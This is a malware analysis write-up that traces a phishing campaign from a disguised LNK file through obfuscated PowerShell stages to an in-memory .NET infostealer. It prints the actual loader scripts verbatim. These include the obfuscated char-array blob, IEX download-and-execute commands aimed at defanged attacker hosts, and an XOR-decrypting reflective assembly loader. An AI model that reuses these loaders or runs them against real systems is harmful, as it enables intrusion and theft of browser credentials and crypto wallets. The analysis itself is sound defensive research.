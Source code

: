## Phishing for InfoStealers - Deobfuscating PowerShell and Reversing a .NET Binary 

I recently came across a site which hosts multiple zip archives masquerading as PDF documents. The aim is to distribute a second-stage PowerShell script which executes a .NET binary in memory. The binary collects system information and targets software such as web browsers, cryptocurrency wallets, two-factor authentication applications and gaming software.

## Initial LNK File

The file is delivered to the victim via email, which prompts them to download and open the following file:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/a0451615-f6eb-40e0-85fd-891396665494)

A Zip archive is downloaded, which contains a Lnk file, masquerading with a PDF icon.

LNK Target Path (Defanged): 
```
C:\Windows\System32\msiexec.exe -package hxxPs[:/\]onedrive.live[.]com/download?cid=85B4181C5D4F7514&resid=58504D327740F380%21149&authkey=AIHrvoeE31NvUiI&.msi -qn
```

Upon execution, MsiExec would execute with the argument to download and execute a MSI file from the OneDrive URL provided.

## MSI File Analysis 

This downloaded a file called "42WiseAnyConnect.msi", which we can extract a PowerShell script from using lessmsi:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/76fd615d-1298-47ac-bf25-a9e719da17d3)

## PowerShell Deobfuscation

PowerShell Script:
``` powershell
.(-join[char[]]((570-465),(266-165),(354-234)))(-join[char[]]((65678-399),(939-856),(959-858),(460-344),(618-573),(926-850),(700-589),(648-549),(283-186),(223-107),(596-491),(1006-895),(308-198),(440-408),(1038-971),(614-556),(332-240),(417-330),(826-721),(849-739),(734-634),(782-671),(619-500),(468-353),(309-217)(466-382),(787-686),(775-666),(724-612),(347-255),(933-846),(972-867),(959-849),(1063-963),(810-699),(897-778),(265-150),(611-544),(1077-963),(321-224),(421-306),(906-802),(528-452),(878-767),(927-824),(423-308),(543-497),(789-679),(1001-948),(960-845),(526-404),(924-838),(784-683),(867-747),(640-588),(361-305),(971-857),(590-535),(616-533),(967-910),(192-122),(656-589),(370-288),(548-450),(783-726),(943-865),(647-578),(226-159),(592-475),(323-313),(400-390),(929-893),(315-227),(883-763),(888-800),(411-324),(520-446),(625-554),(754-648),(775-695),(554-435),(346-226),(370-305),(235-203),(535-474),(633-601),(871-826),(675-569),(389-278),(353-248),(989-879),(725-634),(657-558),(262-158),(387-290),(524-410),(384-293),(860-767),(780-687),(638-598),(149-109),(349-292),(1049-996),(1008-960),(573-528),(480-424),(310-257),(914-863),(929-888),(243-199),(757-717),(945-888),(899-845),(987-935),(474-429),(731-675),(570-516),(859-805),(478-437),(812-768),(914-874),(858-802),(168-118),(560-512),(465-420),(950-895),(603-553),(910-861),(996-955),(966-922),(876-836),(362-313),(595-547),(766-710),(709-653),(906-861),(492-435),(949-893),(696-640),(824-783),(365-321),(611-571),(433-378),(722-668),(608-551),(924-879),(688-634),(726-672),(168-112),(283-242),(566-522),(1015-975),(822-765),(937-886),(995-943),(725-680),(329-273),(430-379),(422-372),(333-292),(463-419),(179-139),(752-703),(1039-991),(277-220),(410-354),(380-335),(443-386),(1052-995),(580-527),(537-496),(519-475),(862-822),(651-594),(441-393),(979-924),(349-304),(229-173),(430-382),(564-513),(970-929),(858-814),(208-168),(1010-958),(646-594),(555-503),(833-788),(349-298),(487-436),(722-665),(290-249),(706-662),(271-231),(596-542),(260-212),(209-161),(837-792),(423-371),(961-904),(442-390),(647-606),(434-390),(161-121),(370-320),(823-771),(541-492),(1041-996),(348-299),(245-194),(887-835),(504-463),(828-784),(334-294),(730-674),(187-132),(1044-989),(639-594),(295-240),(813-759),(1006-949),(731-690),(714-670),(619-579),(422-370),(770-718),(753-699),(220-175),(262-211),(343-292),(820-765),(177-136),(494-450),(583-543),(889-839),(479-424),(997-949),(441-396),(561-512),(458-404),(304-256),(607-566),(952-908),(836-796),(437-385),(531-477),(875-819),(828-783),(900-849),(698-645),(470-415),(527-486),(988-944),(161-121),(408-356),(238-182),(478-428),(281-236),(214-163),(496-441),(216-168),(1006-965),(244-200),(428-388),(161-112),(349-301),(1035-983),(248-193),(649-604),(163-106),(966-915),(287-235),(927-886),(778-734),(869-829),(468-416),(480-427),(1017-967),(150-105),(1051-1000),(1009-958),(367-311),(397-356),(685-641),(583-543),(643-588),(641-590),(463-414),(778-733),(323-269),(189-140),(653-599),(572-531),(162-118),(157-117),(471-421),(705-650),(757-700),(793-748),(814-765),(297-243),(473-422),(536-495),(600-556),(916-876),(494-440),(1037-981),(314-261),(997-952)
(1014-961),(268-214),(178-122),(238-197),(485-441),(707-667),(726-669),(311-260),(461-409),(612-567),(941-885),(261-212),(734-680),(518-477),(438-394),(854-814),(987-933),(939-890),(429-373),(633-588),(231-179),(1018-961),(577-520),(303-262),(167-123),(362-322),(308-258),(502-450),(256-207),(527-482),(631-582),(808-758),(948-899),(686-645),(282-238),(186-146),(774-725),(776-728),(209-156),(813-760),(475-430),(415-358),(571-520),(626-574),(750-709),(650-606),(508-468),(793-744),(684-636),(700-649),(427-371),(873-828),(994-937),(243-194),(202-148),(950-909),(253-209),(344-304),(488-433),(745-693),(253-203),(755-710),(220-166),(224-169),(486-431),(224-183),(993-949),(906-866),(216-163),(922-873),(699-646),(927-882),(1040-988),(547-495),(222-165),(879-838),(1043-999),(207-167),(988-939),(891-836),(217-164),(198-153),(673-624),(904-856),(381-325),(185-144),(200-156),(363-323),(428-372),(739-686),(552-498),(205-160),(908-853),(879-823),(601-545),(529-488),(1037-993),(744-704),(167-118),(158-110),(271-222),(359-304),(816-771),(218-161),(254-202),(560-504),(506-465),(469-425),(503-463),(468-411),(420-372),(354-304),(229-184),(969-913),(200-149),(759-709),(283-242),(503-459),(442-402),(523-467),(939-890),(283-229),(521-476),(186-131),(563-511),(918-865),(153-112),(163-119),(335-295),(406-354),(1049-998),(1045-989),(1043-998),(578-527),(380-326),(593-539),(454-413),(393-349),(640-600),(353-304),(332-284),(414-365),(1038-987),(162-117),(1035-978),(1029-977),(697-649),(442-401),(692-648),(202-162),(753-701),(660-609),(988-933),(194-149),(922-871),(744-690),(922-871),(287-246),(612-568),(643-603),(799-748),(736-681),(679-631),(906-861),(586-536),(730-673),(620-567),(284-243),(166-122),(737-697),(645-593),(170-115),(253-196),(696-651),(845-793),(991-943),(309-258),(1029-988),(370-326),(322-282),(315-263),(803-753),(297-245),(494-449),(778-727),(918-866),(457-402),(409-368),(528-484),(425-385),(459-407),(719-666),(205-150),(972-927),(970-919),(249-194),(1024-967),(570-529),(481-437),(683-643),(731-681),(301-247),(300-250),(424-379),(302-253),(876-820),(293-242),(528-487),(373-329),(213-173),(585-534),(919-866),(956-906),(409-364),(868-818),(474-419),(424-374),(654-613),(848-804),(209-169),(270-215),(204-155),(992-942),(963-918),(548-494),(760-709),(428-379),(148-107),(153-109),(466-426),(648-593),(468-413),(898-845),(235-190),(788-734),(438-381),(1030-979),(366-325),(251-207),(725-685),(1039-985),(727-679),(748-699),(879-834),(559-506),(552-503),(900-844),(262-221),(1025-981),(463-423),(498-447),(393-337),(630-578),(877-832),(177-126),(456-408),(591-543),(702-661),(682-638),(241-201),(605-548),(825-772),(479-428),(575-530),(376-320),(326-272),(283-227),(671-630),(1012-968),(313-273),(497-443),(498-442),(613-556),(876-831),(458-404),(496-448),(858-807),(750-709),(353-309),(847-807),(1016-961),(312-257),(655-598),(190-145),(284-230),(366-309),(711-661),(318-277),(633-589),(321-281),(322-265),(604-551),(419-371),(379-334),(281-225),(981-927),(587-537),(721-680),(852-808),(305-265),(229-175),(838-790),(543-491),(597-552),(371-318),(580-531),(166-113),(427-386),(799-755),(589-549),(859-807),(429-374),(516-465),(533-488),(978
927),(380-324),(850-799),(936-895),(460-416),(190-150),(166-117),(822-774),(589-537),(913-857),(637-592),(593-536),(271-214),(759-702),(598-557),(245-201),(765-725),(926-874),(857-802),(519-463),(990-945),(444-392),(634-584),(649-593),(471-430),(174-130),(557-517),(263-214),(832-778),(540-485),(785-740),(289-240),(241-192),(328-274),(591-550),(309-265),(719-679),(559-502),(553-499),(975-919),(568-523),(181-124),(580-531),(274-220),(523-482),(527-483),(207-167),(556-504),(520-470),(551-502),(402-357),(583-532),(545-491),(1035-979),(291-250),(948-904),(751-711),(600-544),(939-891),(761-713),(420-375),(1013-958),(804-752),(507-453),(331-290),(196-152),(151-111),(624-570),(895-844),(705-655),(622-577),(225-172),(398-343),(437-382),(496-455),(618-574),(255-215),(930-877),(208-157),(260-210),(808-763),(270-218),(445-390),(512-458),(247-206),(834-790),(203-163),(829-773),(807-751),(639-585),(882-837),(537-481),(841-791),(446-389),(640-599),(422-378),(770-730),(816-762),(291-235),(221-171),(751-706),(551-497),(164-113),(165-113),(400-359),(854-813),(757-747),(424-388),(236-157),(976-899),(842-774),(656-586),(299-196),(477-370),(649-566),(479-404),(644-540),(347-243),(843-740),(871-772),(261-229),(956-895),(706-674),(774-734),(703-654),(693-647),(286-240),(752-703),(331-281),(897-865),(923-799),(413-381),(490-420),(410-299),(624-510),(204-135),(579-482),(393-294),(276-172),(178-133),(1029-950),(377-279),(1073-967),(258-157),(974-875),(397-281),(540-508),(529-406),(476-444),(188-117),(502-401),(1084-968),(515-470),(708-626),(543-446),(954-844),(430-330),(638-527),(519-410),(915-883),(641-596),(216-143),(871-761),(472-360),(738-621),(969-853),(774-695),(526-428),(616-510),(705-604),(517-418),(873-757),(642-610),(1012-976),(903-815),(278-158),(573-485),(457-370),(703-629),(687-616),(907-801),(393-313),(322-203),(269-149),(593-528),(262-216),(1014-930),(391-280),(174-107),(877-773),(335-238),(315-201),(633-568),(869-755),(216-102),(555-458),(386-265),(887-847),(911-870),(138-106),(313-188),(315-274),(383-373),(232-222),(892-856),(1024-939),(226-152),(370-267),(676-594),(804-696),(595-498),(808-739),(1063-986),(996-913),(361-329),(275-214),(612-580),(389-318),(1091-990),(480-364),(589-544),(1034-952),(402-305),(759-649),(974-874),(918-807),(1072-963),(877-845),(558-513),(691-614),(721-616),(519-409),(550-445),(803-694),(619-502),(925-816),(560-528),(303-254),(830-778),(781-749),(779-734),(476-399),(611-514),(796-676),(968-863),(628-519),(538-421),(863-754),(498-466),(656-599),(1028-978),(747-737),(357-274),(424-308),(536-439),(567-453),(289-173),(821-776),(273-190),(285-177),(1000-899),(1019-918),(416-304),(864-832),(834-789),(721-638),(383-282),(224-125),(492-381),(347-237),(430-330),(1103-988),(510-478),(976-940),(745-660),(444-370),(272-169),(320-238),(472-364),(205-108),(432-363),(855-778),(685-602),(909-899),(402-366),(539-473),(853-781),(485-363),(592-527),(541-420),(341-276),(609-538),(897-808),(1075-976),(135-103),(427-366),(153-121),(940-895),(721-615),(785-674),(533-428),(896-786),(202-111),(1084-985),(437-333),(838-741),(238-124),(936-845),(666-573),(767-674),(893-853),(146-106),(422-368),(1026-976),(964-915),(707
662),(926-873),(474-425),(630-575),(849-808),(725-681),(809-769),(824-767),(192-136),(727-674),(800-755),(582-526),(173-119),(337-280),(660-619),(555-511),(873-833),(324-272),(877-824),(496-447),(981-936),(826-775),(494-443),(661-608),(749-708),(663-619),(240-200),(970-921),(284-236),(863-813),(539-487),(395-350),(599-542),(532-483),(322-272),(269-228),(649-605),(829-789),(932-880),(305-252),(744-693),(613-568),(382-331),(474-417),(939-886),(580-539),(657-613),(891-851),(790-736),(953-896),(877-822),(666-621),(696-642),(530-477),(906-858),(664-623),(473-429),(203-163),(869-812),(617-565),(752-696),(863-818),(530-473),(273-225),(385-336),(497-456),(211-167),(162-122),(745-690),(812-764),(375-324),(204-159),(1036-982),(505-452),(457-405),(860-819),(190-146),(574-534),(694-644),(209-156),(372-319),(1006-961),(325-275),(196-148),(347-297),(163-122),(899-855),(1033-993),(225-170),(683-634),(256-204),(200-155),(1047-993),(613-559),(389-337),(562-521),(760-716),(789-749),(186-132),(506-450),(882-827),(242-197),(1008-954),(835-783),(644-595),(213-172),(462-418),(207-167),(1045-991),(606-550),(839-782),(931-886),(266-212),(556-505),(708-657),(415-374),(345-301),(625-585),(416-367),(349-292),(1015-963),(326-281),(403-354),(989-938),(901-846),(422-381),(824-780),(179-139),(165-110),(321-270),(517-460),(898-853),(414-360),(256-199),(308-257),(703-662),(410-366),(448-408),(660-610),(590-539),(530-477),(225-180),(800-751),(353-297),(240-186),(548-507),(200-156),(873-833),(806-753),(339-285),(313-259),(429-384),(513-460),(561-513),(178-121),(627-586),(615-571),(537-497),(427-370),(1012-956),(412-360),(412-367),(265-208),(157-107),(599-543),(934-893),(526-482),(371-331),(697-640),(571-523),(882-828),(457-412),(818-762),(421-367),(495-447),(187-146),(267-223),(520-480),(360-306),(452-395),(874-821),(462-417),(693-639),(158-106),(587-534),(815-774),(730-686),(722-682),(400-346),(226-177),(610-556),(891-846),(1027-974),(689-635),(711-657),(840-799),(220-176),(1014-974),(518-466),(508-459),(575-518),(157-112),(631-580),(307-253),(202-150),(877-836),(768-724),(609-569),(733-676),(596-548),(980-923),(829-784),(398-342),(646-593),(363-314),(944-903),(464-420),(344-304),(647-591),(785-731),(391-339),(975-930),(714-658),(308-259),(828-779),(646-605),(821-777),(812-772),(267-210),(1036-981),(720-664),(727-682),(428-371),(338-287),(861-813),(629-588),(209-165),(855-815),(413-361),(244-196),(636-587),(161-116),(952-901),(920-867),(230-179),(948-907),(434-390),(870-830),(177-127),(458-408),(528-472),(902-857),(210-161),(1024-968),(677-629),(184-143),(731-687),(348-308),(911-862),(287-239),(471-423),(870-815),(582-537),(442-385),(868-814),(361-313),(534-493),(1012-971),(574-564),(494-458),(948-867),(875-795),(630-508),(939-853),(908-806),(650-584),(876-797),(930-841),(604-497),(490-458),(1045-984),(644-612),(701-665),(572-506),(905-833),(520-398),(792-727),(638-517),(806-741),(633-562),(454-365),(713-614),(564-532),(222-179),(425-393),(325-289),(343-264),(549-472),(299-231),(827-757),(353-250),(806-699),(577-494),(965-890),(205-101),(504-400),(865-762),(550-451),(815-805),(721-685),(442-330),(196-108),(575-493),(508-392),(548-434),(1051
981),(416-346),(807-702),(814-724),(1055-981),(1062-940),(778-692),(273-241),(641-580),(746-714),(687-616),(794-693),(969-853),(247-202),(406-324),(1022-925),(921-811),(770-670),(751-640),(626-517),(574-542),(172-127),(993-916),(752-647),(725-615),(725-620),(679-570),(496-379),(877-768),(263-231),(442-392),(234-183),(509-477),(207-162),(794-717),(264-167),(977-857),(335-230),(223-114),(648-531),(482-373),(1000-968),(455-399),(373-324),(797-787),(960-877),(954-838),(239-142),(430-316),(497-381),(504-459),(231-148),(980-872),(494-393),(746-645),(774-662),(999-967),(971-926),(1017-934),(697-596),(932-833),(565-454),(366-256),(920-820),(800-685),(702-670),(166-130),(1078-966),(211-123),(1050-968),(358-242),(430-316),(1031-961),(261-191),(1067-962),(277-187),(199-125),(646-524),(808-722),(294-284),(369-359),(278-242),(334-212),(362-272),(1032-912),(476-397),(441-355),(942-823),(1009-944),(374-273),(568-536),(488-427),(956-924),(492-419),(1051-941),(1097-979),(321-210),(645-538),(1004-903),(1034-989),(602-515),(380-279),(643-545),(677-595),(366-265),(701-588),(691-574),(534-433),(1018-903),(436-320),(151-119),(553-508),(941-856),(576-461),(428-327),(975-909),(288-191),(686-571),(392-287),(756-657),(1064-984),(203-106),(672-558),(543-428),(602-497),(491-381),(369-266),(167-135),(672-627),(512-427),(583-469),(278-173),(1014-982),(411-375),(548-467),(690-610),(474-352),(582-496),(630-528),(699-633),(502-423),(238-149),(213-106),(723-713),(950-914),(337-248),(508-438),(624-558),(738-668),(650-530),(230-147),(801-695),(796-729),(745-643),(675-565),(937-870),(490-458),(657-596),(483-451),(651-560),(777-694),(509-388),(1110-995),(740-624),(745-644),(360-251),(366-320),(290-206),(568-467),(340-220),(229-113),(760-714),(230-161),(228-118),(237-138),(978-867),(251-151),(814-709),(1004-894),(387-284),(839-746),(516-458),(729-671),(378-293),(452-368),(968-898),(752-696),(739-693),(281-210),(1064-963),(239-123),(467-384),(348-232),(247-133),(627-522),(1030-920),(452-349),(910-870),(598-562),(937-815),(468-378),(476-356),(199-120),(602-516),(644-525),(210-145),(731-630),(758-712),(689-622),(670-559),(290-180),(670-554),(966-865),(304-194),(1042-926),(511-470),(348-338),(375-365),(753-680),(586-476),(944-826),(420-309),(562-455),(299-198),(293-248),(842-773),(560-440),(914-802),(403-289),(782-681),(1043-928),(551-436),(979-874),(1068-957),(813-703),(830-798),(280-235),(464-397),(1038-927),(835-726),(846-737),(664-567),(547-437),(775-675),(736-704),(725-689),(642-553),(309-239),(425-359),(393-323),(992-872),(277-194),(342-236),(571-504),(734-632),(1062-952),(993-926),(447-437),(630-620),(234-151),(825-709),(406-309),(912-798),(286-170),(379-334),(413-330),(723-615),(1011-910),(636-535),(227-115),(815-783),(151-106),(900-817),(686-585),(668-569),(1107-996),(476-366),(796-696),(335-220),(357-325),(839-785),(573-525),(911-863),(125-115),(785-775),(579-497),(498-397),(594-485),(613-502),(945-827),(578-477),(177-132),(576-503),(623-507),(788-687),(406-297),(408-376),(512-467),(315-235),(670-573),(478-362),(466-362),(834-802),(609-573),(928-848),(501-418),(330-263),(796-685),(323-214),(286-177),(841-744),(291-181),(555-455),(409-329),(271
174),(649-533),(717-613),(927-895),(559-514),(746-676),(1087-976),(683-569),(839-740),(1092-991)))
```

We can deobfuscate this simply by using an echo command before the command block, which gives us the following:

``` powershell
.
iex
﻿Set-Location C:\Windows\Temp\WindowsCrashLogs.n5szVex48r7S9FCRb9NECu

$XxXWJGjPwxA = -join[char[]]((950-853),(964-866),(820-721),(1088-988),(769-668),(934-832),(1098-995),(907-803),(444-339),(600-494),(241-134),(877-769),(446-337),(270-160),(468-357),(482-370),(1047-934),(452-338),(731-616),(279-163),(685-568),(934-816),(618-499),(241-121),(1055-934),(1038-916),(742-677),(515-449),(175-108),(856-788),(1017-948),(902-832),(816-745),(438-366),(1013-940),(437-363),(370-295),(479-403),(424-347),(457-379),(262-183),(352-272),(712-631),(775-693),(601-518),(384-300),(953-868),(689-603),(779-692),(950-862),(604-515),(473-383),(1048-999),(478-428),(167-116),(968-916),(421-368),(800-746),(632-577),(532-476),(886-829),(682-634))
$OMDFgkSKhhgc = (1..12 | ForEach-Object { Get-Random -InputObject $XxXWJGjPwxA.ToCharArray() })

$UJgRlaEMS = Get-Random -Minimum 14 -Maximum 92
Start-Sleep -Seconds $UJgRlaEMS
$BHzAyAGYc = -join[char[]]((621-517),(985-869),(451-335),(1024-912),(453-395),(697-650),(948-901),(703-654),(255-202),(714-664),(687-641),(689-633),(194-137),(739-693),(235-186),(566-509),(984-928),(906-860),(695-645),(616-566),(419-364),(909-851),(864-811),(978-930),(401-353),(228-180),(1007-960))
$QPzVfBOYk = $BHzAyAGYc + $OMDFgkSKhhgc
$pXRtrFFiZJzV = Get-Random -Minimum 23 -Maximum 81
Start-Sleep -Seconds $pXRtrFFiZJzV

$zZxOVwAe = Invoke-WebRequest -UseBasicParsing -Uri $QPzVfBOYk
$YFBFxSjCfnC = [System.Text.Encoding]::UTF8.GetString($zZxOVwAe.Content)

Invoke-Expression -Command $YFBFxSjCfnC

Start-Sleep -Seconds 600

Remove-Item -Path $PSCommandPath -Force
```

We can work out the variables using a similar method, we'll echo the join[char] string, and convert the output from decimal to ASCII.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/116468c3-948a-4dee-bb3d-bf702d0ee877)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/f33f098b-ad0c-4fb0-9e85-f624dd3db7e5)



[-] $XxXWJGjPwxA = abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890

[-] $BHzAyAGYc = hxxp[://]152.89.198[.]227:5000/

Essentially the script is downloading and executing the content from the IP:Port above, with a random 12-character string URI

The script which lives there is the following:

``` powershell
Set-Location C:\Windows\Temp\WindowsCrashLogs.n5szVex48r7S9FCRb9NECu

$rnd = Get-Random -Minimum 13 -Maximum 91
Start-Sleep -Seconds $rnd

$randomFunctions = @(
    { return [math]::Pi * (Get-Random -Minimum 0 -Maximum 100) },
    { return [guid]::NewGuid().ToString() },
    { return Get-Random -Minimum 0 -Maximum 100 }
)

$randomFunction = Get-Random -InputObject $randomFunctions`

try {
    $dotNetVersion = (Get-Command 'dotnet').Version.Major
    if ($dotNetVersion -ge 4) {
        Write-Host "Installed Version .NET Runtime: $dotNetVersion"
        Start-Process -FilePath "powershell" -ArgumentList "-Command IEX(Invoke-WebRequest -UseBasicParsing 'hxxps[://]www.fuchs.com[.]sd/media/media/js/ap4.ps1')" -NoNewWindow
    } else {
        Write-Host "$randomValue"
        Start-Process -FilePath "powershell" -ArgumentList "-Command IEX(Invoke-WebRequest -UseBasicParsing 'hxxps[://]www.fuchs.com[.]sd/media/media/js/ap2.ps1')" -NoNewWindow
    }
} catch {
    Write-Host "$randomValue"
    Start-Process -FilePath "powershell" -ArgumentList "-Command IEX(Invoke-WebRequest -UseBasicParsing 'hxxps[://]www.fuchs.com[.]sd/media/media/js/ap2.ps1')" -NoNewWindow
}

$rnd2 = Get-Random -Minimum 12 -Maximum 73
Start-Sleep -Seconds $rnd2


Remove-Item $PSCommandPath -Force

```

The main takeaway from this is that the script checks the .NET version of the victim host, the outcome of which decides which script will be executed.

Next stage:

``` powershell
[byte[]] $binary = (Long Byte Arary)

# [Net.ServicePointManager]::SecurityProtocol +='tls12'
$guid = (Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Cryptography).MachineGuid
$config = (new-object net.webclient).downloadstring("hxxp[://]45.129.199[.]204/index.php?id=$guid&subid=ezzcAvVW").Split('|')
$k = $config[0];

for ($i = 0; $i -lt $binary.Length ; ++$i)
{
	$binary[$i] = $binary[$i] -bxor $k[$i % $k.Length]
}

$sm = [System.Reflection.Assembly]::Load($binary)
$ep = $sm.EntryPoint


$ep.Invoke($null, (, [string[]] ($config[1], $config[2], $config[3])))
```
The following actions are performed by the script:

[-] Retrieves the MachineGuid from the Windows registry: $guid = (Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Cryptography).MachineGuid

[-] Retrieves 3 values from 'hxxp[://]45.129.199[.]204/index.php?id=$guid&subid=ezzcAvVW' and assigns them to the $config array.

[-] Performs a bitwise XOR operation (-bxor) on the binary array with the first value.

[-] Loads the binary data as a .NET assembly using [System.Reflection.Assembly]::Load($binary).

[-] Accessing the entry point of the loaded assembly: $ep = $sm.EntryPoint.

[-] Invokes the entry point of the assembly with the three values: $ep.Invoke($null, (, [string[]] ($config[1], $config[2], $config[3]))).

The values are as follows:

zpsoJEKDxaCoTLVurobI|ezzcAvVW|hxxp[://]45.129.199[.]204/index.php|

We know that the first value is the XOR key, so we can use this to retrieve the binary from the byte array using CyberChef.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/50343d38-5655-4491-b786-f72712eb31ee)

## Binary Analysis

The binary can be reviewed in DNSpy as it is a .NET binary, however, it is extremely obfuscated as it has been protected with ConfuserEx.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c2fa5c5d-54e7-4874-a240-20168cd6fbc8)

We can use a Confuser Unpacker to make this code a lot easier to read, I'll be using this - https://github.com/XenocodeRCE/ConfuserEx-Unpacker/tree/master

Unpack the binary:

```
C:\Users\mzheader\Desktop\ConfuserEx-Unpacker-master\ConfuserEx Dynamic Unpacker\bin\Debug > & '.\ConfuserEx Dynamic Unpacker.exe' -s C:\Users\mzheader\Desktop\confusing.exe
```

Instantly, we can see the two arguments being passed from the previous web request

(buildID = 'ezzcAvVW' and URL =  'hxxp[://]45.129.199[.]204/index.php')

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/2cc1b5a0-0b00-4a0e-b6de-44a0cde031ca)

There are lots of interesting functions typical of info-stealing malware, described below:

**Finding and stealing sensitive browser information**

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/13e30051-0c28-443e-af05-d412cdbea19b)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/68c2bf01-3f44-4c89-ad43-189df3d437fc)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/88e34856-1b24-4578-b749-a67c7a5eeee9)


**Crypto Wallet Paths being defined**

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/49ad2d13-5946-4182-8ac7-f16d75f77be1)

**Screenshot functionality**

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/9dc09b92-a8f7-435f-a888-37dcc6ed3a9a)

**Collecting System information**

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c5304ba0-b812-480e-a604-10e13d5f125f)

**Function detailing how the information is exfiltrated**

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/dae44a37-1622-4016-aa7d-69039d2dae1d)


**Full List of interesting function names**

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/0b7588e0-e338-4895-8ad3-b2dac3ddbd2e)



